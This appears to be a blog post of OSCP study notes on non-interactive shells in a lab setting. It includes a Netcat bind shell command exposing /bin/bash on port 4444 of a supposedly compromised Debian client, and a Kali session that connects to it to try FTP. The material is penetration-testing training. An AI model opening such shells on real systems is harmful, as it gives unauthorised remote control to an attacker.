 
• it creates relevant group and user
• configure folder permission
• restart the server

• We will make the script executable, then run it and enter “lab” as the password for the offsec userwhen prompted:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/3.jpg)


16.1.3 The Non-Interactive Shell


• Most Netcat-like tools provide a non-interactive shell, which means that programs that require userinput such as many file transfer programs or su and sudo tend to work poorly, if at all.
 
• Noninteractive shells also lack useful features like tab completion and job control.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/4.jpg)

• ls - non interactive command bc-> finish without user interaction.

• You are hopefully familiar with the ls command. This command is non-interactive, because it cancomplete without user interaction

• consider a typical FTP login session from our Debian lab client to our Kali system:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/5.jpg)

• let’s attempt an FTP session through a non interactive shell, in this case, Netcat.

• To begin, let’s assume we have compromised a Debian client and have obtained access to a Netcat bind shell. We’ll launch Netcat on our Debian client listening on port 4444 to simulate this:

student@debian:~$ nc -lvnp 4444 -e /bin/bash
listening on [any] 4444 ...

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/6.jpg)

• From our Kali system, we will connect to the listening shell and attempt the FTP session from Listing 466 again:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/7.jpg)

kali@kali:~$ nc -vn 10.11.0.128 4444
ftp 10.11.0.4
offseclab
bye
^C
kali@kali:~$

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/8.jpg)

• Behind the scenes, we are interacting with the FTP server, but we are not receiving any feedback inour shell.
 
• This is because the standard output from the FTP session (an interactive program) is not redirected correctly in a basic bind or reverse shell.
 